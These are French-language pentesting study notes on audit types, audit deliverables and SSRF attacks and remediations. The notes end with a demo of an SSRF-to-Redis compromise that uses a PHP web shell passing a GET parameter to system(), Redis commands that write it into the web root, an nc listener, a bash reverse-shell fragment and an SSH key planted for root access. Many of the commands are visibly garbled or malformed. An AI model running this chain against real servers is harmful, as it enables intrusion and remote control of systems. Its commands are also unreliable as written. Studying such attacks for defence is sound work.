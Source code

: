Boite grise: On dispose d&#39;un compte utilisateur  cet audit dure environ 1 semaine

Boite Blanche: Accès total ce qui permet de lire le code des applis et de faire un audit en profondeur  cet audit dure + d&#39;1 semaine

À la fin de l&#39;audit on rend compte au client en lui fournissant ce qu&#39;on appel un Livrable qui contient plusieurs informations:

- Synthèse des test effectués
- Scénario dans lequel les tests ont été effectués
- Détails Technique
- Recommandations pour corriger les différentes failles

**Attaque SSRF :**

SSRF : Server Side Request Forgery

Contexte :

Une application fait une requête vers le serveur, il est possible de modifier l&#39;url pour forger des attaques.

Exploit :

- Inclusion de fichier
- Loopback scan
- Scan **interne**
- Communication avec services internes

Les remédiations à cette faille de sécurité sont :

- Liste blanche domaine DNS
- Analyse de réponses du serveur tiers
- Désactiver les schéma URL utilisé
- Authentification sur les services internes

**Démo :**

Nmap du serveur :

    Nmap -Pn -Ss -Sv -o -PL65535.max\_rtt\_timeout 30ms

    Curl -x POST

    Gopher url/xinfo



    <?php echo system ($GET['CMD&'])

    Config set db filename

    Config set idir /var/www/html

Exploit de Redis pour utiliser les services apaches

    nc -lvnp 4444

    Bash -i /demo/TCP

Crée une clé SSH -> log root

    Cd -> .SSH
